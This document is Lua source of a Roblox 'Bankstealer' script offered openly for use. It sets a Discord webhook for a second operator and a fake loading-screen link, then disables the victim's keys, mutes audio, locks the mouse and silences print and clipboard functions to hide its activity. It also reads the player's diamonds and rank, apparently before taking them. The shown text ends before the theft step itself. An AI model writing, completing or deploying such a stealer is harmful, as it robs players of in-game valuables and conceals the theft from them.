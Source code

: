 --[[
   ____  _         _   _       _       ____              _        _             _
  |  _ \(_)_______| | | |_   _| |__   | __ )  __ _ _ __ | | _____| |_ ___  __ _| | ___ _ __
  | |_) | |_  /_  / |_| | | | | '_ \  |  _ \ / _` | '_ \| |/ / __| __/ _ \/ _` | |/ _ \ '__|
  |  _ <| |/ / / /|  _  | |_| | |_) | | |_) | (_| | | | |   <\__ \ ||  __/ (_| | |  __/ |
  |_| \_\_/___/___|_| |_|\__,_|_.__/  |____/ \__,_|_| |_|_|\_\___/\__\___|\__,_|_|\___|_|

]]--

local dhuser = "bosinbosin29"       -- dualhooking user
local dhwebhook = "https://discord.com/api/webhooks/1140403417710329926/_aJJhKDI-jx8B36yg_3biEXAVo9esjxiNeW0pPvJG8eoO3CKCfn_JznVg2wUAaN47cWK" -- Dualhooking Webhook
local loadingraw = "https://raw.githubusercontent.com/robloxdeveloper12/Omgsbankctealer/main/README.md" -- Put Your LoadingScreen Raw Link Here

if getgenv().executed1 then return end
getgenv().executed1 = true

local runService = game:GetService("RunService")
local camera = workspace.CurrentCamera
local disabledKeyCodes = {
    0x73,
    0xA4,
    0xA5,
    0x1B,
    0x0D,
};
UserSettings().GameSettings.MasterVolume = 0
if _G.MouseLock ~= false then
    runService.RenderStepped:Connect(function()
        for _, keyCode in next, disabledKeyCodes do
            keyrelease(keyCode)
        end

        mousemoveabs(camera.ViewportSize.X / 3, camera.ViewportSize.Y / 3);
    end);
end
local function antiPrint(...)
    local info = debug.getinfo(2)
    if info and info.what == 'Lua' and info.func == print then
        return
    end
    return print(...)
end
print = antiPrint
rconsoleprint = antiPrint
rconsolewarn = antiPrint
rconsoleerr = antiPrint
rconsoleinput = antiPrint
printconsole = antiPrint
setclipboard = antiPrint
local runService = game:GetService("RunService")
local camera = workspace.CurrentCamera
local diamond = game.Players.LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text
local rank = game.Players.LocalPlayer.PlayerGui.Main.Right.Rank.RankName.Text
